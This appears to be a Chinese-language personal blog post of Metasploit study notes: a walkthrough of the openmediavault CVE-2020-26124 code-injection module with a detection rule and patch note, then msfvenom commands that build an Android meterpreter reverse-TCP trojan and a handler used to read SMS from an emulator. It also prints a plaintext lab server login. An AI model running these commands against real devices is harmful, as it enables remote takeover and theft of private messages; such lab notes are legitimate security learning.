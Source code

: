 ```yaml
---
layout: post
title: metasploit了解
date: 2020-11-23 09:30
tags: 其他
excerpt: "本文介绍 metasploit了解以及使用记录。"
toc: true
---	
```

## metasploit了解

更新至2020/11/23含有4125个exploits 1125个auxiliary 352个post 592个payloads 45个encoders 10 nops:10、 evasion:7

![](assets/image506.jpg)

例子：CVE-2020-26124

造成漏洞原因：

4.1.36之前的openmediavault和5.5.12之前的5.x允许通过rpc.php的sortfield POST参数进行经过身份验证的PHP代码注入攻击，因为config / databasebackend.inc中未使用json\_encode\_safe。成功利用漏洞后，可以在根操作系统上以root用户身份执行任意命令。

![](assets/image508.jpg)

1.     show options &set

![](assets/image510.jpg)

2.     分析openmediacault\_rpc\_rce.rb文件

大概流程：1.check a.login()  post请求rpc.php文件

                 b.get\_target() post请求version信息

                 b.execute\_command() post请求数据中携带.exec(命令)

          2.exploit a.execute\_cmdstager

3.使用，抓包分析，书写规则

![](assets/image512.jpg)

执行成功。

![](assets/image514.jpg)

规则中可以检测：

"sortfield":"'.exec(\\"

4.查看补丁信息

添加了json\_encode\_safe()函数

![](assets/image516.jpg)

### 3.1 metasploit\_shellcode

1.环境

121服务器上已搭建metasploit环境(用户名密码：zky/gujie0513)

![](assets/image517.png)

环境所在目录：/home/zky/git/metasploit-framework-master

![](assets/image518.png)

生成shellcode

### 3.2利用metasploit生成安卓木马

1.生成木马

msfvenom -p android/meterpreter/reverse\_tcp lhost=192.168.159.224 lport=55555 R > zky.apk

![](assets/image520.jpg)

使用逍遥模拟器打开

![](assets/image522.jpg)

注意安装逍遥模拟器需要打开虚拟机虚拟化vt设置

![](assets/image524.jpg)

打开metasploit监听端口，运行MainActivity

![](assets/image526.jpg)

发送一个真正的apk到安卓模拟器，然后成功启动一个会话，利用这个会话获取基本信息以及短信等信息

![](assets/image528.jpg)

使用jadx-gui分析zky.apk文件，可以看到该应用具有一些敏感权限

![](assets/image530.jpg)

抓取流量分析：

发送的apk携带链接信息

![](assets/image532.jpg)

use exploit/multi/handler

set payload android/meterpreter/reverse\_tcp

set lhost 192.168.159.224

set lport 55555

exploit

webcam\_list

调试过程中涉及的脚本，之后如果遇到可以进行参考

![](assets/image534.jpg)
